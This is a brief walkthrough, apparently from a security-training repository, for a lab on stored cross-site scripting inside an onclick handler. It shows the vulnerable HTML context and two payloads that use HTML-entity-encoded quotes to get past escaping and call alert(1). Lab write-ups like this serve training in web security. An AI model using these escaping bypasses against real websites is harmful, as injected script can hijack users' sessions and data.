 Title: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Level: PRACTITIONER
Desc:  This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

# Walkthrough:


<img width="634" height="471" alt="image" src="https://github.com/user-attachments/assets/8bb17987-9422-40fb-951b-bf763c583df5" />
string provided by website field is reflected on : 
`<a id="author" href="https://website.com" onclick="var tracker={track(){}};tracker.track('https://website.com');">`

payload to make this work: `http://foo?&apos;-alert(1)-&apos;` (add to website and url encode in burp)

<img width="1396" height="784" alt="image" src="https://github.com/user-attachments/assets/c4997472-1fda-449d-ae49-2453c145c33b" />

`http://foo?&apos;);alert(1);//`  - this payload also works
